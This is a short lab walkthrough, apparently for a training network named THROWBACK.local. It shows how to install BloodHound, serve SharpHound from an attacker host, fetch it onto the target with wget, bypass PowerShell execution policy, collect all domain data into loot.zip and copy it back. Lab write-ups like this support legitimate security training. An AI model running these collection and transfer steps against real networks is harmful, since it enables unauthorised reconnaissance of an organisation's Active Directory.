 ## Bloodhound Installation

1.) `sudo apt install bloodhound` 

2.) `neo4j console`

### default credentials:

    `user:neo4j`

    `pass:neo4j`    

### Getting Loot with Sharphound

You will need to download Sharphound [here](https://github.com/BloodHoundAD/BloodHound/tree/master/Ingestors). We suggest downloading the .ps1 script file.

From your host machine

1.) `python3 -m http.server`    

From the target device

2.) `wget tun0_IP:8000/Sharphound.ps1 -outfile Sharphound.ps1`    

3.) `powershell -ep bypass`

4.) `. .\Sharphound.ps1`

    or 

    `Import-Module .\Sharphound.ps1`    

5.) `Invoke-Bloodhound -CollectionMethod All -Domain THROWBACK.local -ZipFileName loot.zip`   


![](https://lh4.googleusercontent.com/3G7PTrFXBCpL5OJxzMQFyaHyEk_l3AC9B9TJP9-P1EwHAS5I530o_km-ypIfF8Cgh6v0NsN2wdyz5rroGgumdIBaww3QBuNEGZV9E1ukQlNzD-alNLhGvL-HJJQx2gkP7_BwOiw8)

### Launching Sharphound to enumerate domain information

Mapping the Network with Bloodhound 

1.) `scp loot.zip @10.200.x.222:/Users/Administrator/Downloads/loot.zip`    

2.) `sudo neo4j console`

3.) `bloodhound`    

4.) Sign into Bloodhound using the same credentials you set with neo4j.

  

![](https://lh3.googleusercontent.com/hsfAYf396-SafBFMo8EVPTm4cc83J-UauV7aJn1Y4nW2TeupOICB_uQGYCGauCcBCSJhmIMzJuecKun5S6lrkIctmN5pWQ_SioalQFNE_WAk9i4P-W96agnwcsmkyx19vpZrdeD5)

### Bloodhound login panel

  

5.) In Bloodhound look for the 'upload data' icon / text and upload the json files / zip folder.
